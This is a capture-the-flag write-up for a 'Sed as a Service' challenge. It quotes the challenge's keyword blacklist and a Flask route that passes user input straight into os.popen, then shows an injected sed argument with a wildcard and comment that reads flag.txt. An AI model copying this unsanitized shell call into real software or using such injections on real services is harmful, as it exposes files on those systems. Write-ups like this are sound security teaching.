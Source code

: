 # Sed as a Service (SaaS)

>We have to find the flag which is present in flag.txt

We have the source code of the Sed server.
While inspecting the source code, we find an interesting thing:

```python
blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]
```

Thus, we can see that flag is blacklisted. Also, cat is blacklisted. So we cannot append cat with the sed command.

We also see from app.py,

```python
@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

Thus we observe that our query is passed without any sanitation into a shell command.
While using the web-app, if we use 

```bash
's/a/a/g'
```
we find out that stuff.txt contains a simple Lorem text.

We then try to appendother commands with sed, but it does not work.
Then we try
```bash
's/a/a/g' *.txt #
```
This causes sed to replace all the 'a' with 'a' in all files having a .txt extension. We end it with a # to comment out the rest of the command in the original format string mentioned in app.py
Thus the final command becomes
```bash
sed 's/a/a/g' *.txt # stuff.txt
```
which gives us the contents of flag.txt
We see that flag is printed at the beginning:
```
ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}
```
